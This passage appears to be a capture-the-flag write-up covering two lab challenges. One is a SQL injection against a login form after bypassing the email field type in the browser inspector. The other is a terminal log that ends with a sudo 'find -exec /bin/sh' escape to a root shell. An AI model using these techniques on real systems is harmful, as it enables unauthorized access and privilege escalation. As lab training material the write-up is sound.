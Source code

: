 > - We see that it outputs that no such user or pass exist

- Now it is time to try injection

![InitialInject](https://i.imgur.com/VxnSpGb.png)

> - Here we see that the field requires type 'email'

![EmailZoomedIn](https://i.imgur.com/RQhcqNy.png)

> - We can bypass this locally by accessing the inpsector tab and changing the field requirement.

![Type=text](https://i.imgur.com/PQQdrYs.png)

> - This redirects us to an error page, indicating that we are on the right tracks.
> - Now is time to break some logic (Assume from here that the type is always text) 

![InitialLogicBreak](https://i.imgur.com/mahR2wT.png)

> - The error that it cannot process that many users tells us that the query is trying to bring back the whole table.
> - Lets try to limit the results

![LIMITResults](https://i.imgur.com/qHOxIMQ.png)

> - This is successful, and we can not begin to move around the table using offset.

![FLAGResult](https://i.imgur.com/arUqfBg.png)

> Voila, we have the flag.

---

#### Privelege Escalation

> For this challenge, we have been provided with details privesc:privesc for SSH.


~~~term
┌──(user㉿kali)-[~/Desktop/Event/Build-a-CTF_Event]
└─$ ssh privesc@192.168.118.130
privesc@192.168.118.130's password: 
Linux 8dd4379b5499 5.4.82-0-virt #1-Alpine SMP Thu, 10 Dec 2020 08:58:01 UTC x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 28 18:54:42 2021 from 192.168.118.142
privesc@8dd4379b5499:~$ whoami
privesc
privesc@8dd4379b5499:~$ sudo -l
[sudo] password for privesc: 
Matching Defaults entries for privesc on 8dd4379b5499:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User privesc may run the following commands on 8dd4379b5499:
    (ALL : ALL) /usr/bin/find
privesc@8dd4379b5499:~$ sudo find . -exec /bin/sh \; -quit
# whoami
root
# cd ..
# ls
privesc
# cd ..
~~~